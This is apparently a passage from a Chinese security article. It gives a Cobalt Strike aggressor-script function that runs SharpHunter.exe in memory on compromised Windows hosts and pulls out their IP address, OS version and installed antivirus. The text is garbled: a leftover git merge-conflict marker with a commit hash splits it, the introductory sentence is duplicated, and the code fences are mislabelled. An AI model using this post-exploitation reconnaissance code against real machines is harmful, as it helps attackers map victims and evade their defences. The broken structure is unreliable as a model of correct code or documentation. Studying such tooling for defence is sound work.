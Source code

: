 这里采用类似的原理监听 SharpHunter.exe 获取的 Windows 主机信息，示例功能函数如下：

```plain
=======
[![](assets/1710206030-c092dc871a4181ec7ffde90e8ec474bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311173119-1daecaaa-df8a-1.png)

这里采用类似的原理监听 SharpHunter.exe 获取的 Windows 主机信息，示例功能函数如下：

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
sub osinfo {
    $bid = $1;
    inlineExecute-Assembly($1,script_resource("/scripts/SharpHunter.exe"), "sys");
    on beacon_output {
        $message = $2;
        $ip_address = "";
        $antivirus = "";

        if ("[*] Hunt End" isin $message) {
            @data = $message;
            println("================================");
            println("[+] Data collection complete");
            @lines = split("\n", @data);
            foreach $line (@lines) {
                $ip = binfo($1)['internal'];
                if ("IPv4Addr" isin $line) {
                    @parts = split(": ", $line);
                    if (size(@parts) > 1) {
                        $ip_address = @parts[1];
                    }
                }
                if ("Antivirus" isin $line) {
                    @parts = split(": ", $line);
                    if (size(@parts) > 1) {
                        $antivirus = @parts[1];
                    }
                }
                if ("OSVersion" isin $line) {
                    @parts = split(": ", $line);
                    if (size(@parts) > 1) {
                        $os_version = @parts[1];
                    }
                }
            }
            println("[+] IP Address : " . $ip_address);
            println("[+] Os Version : " . $os_version);
            println("[+] Antivirus : " . $antivirus);
        }else{
          exit();
        }
    }   
}
```
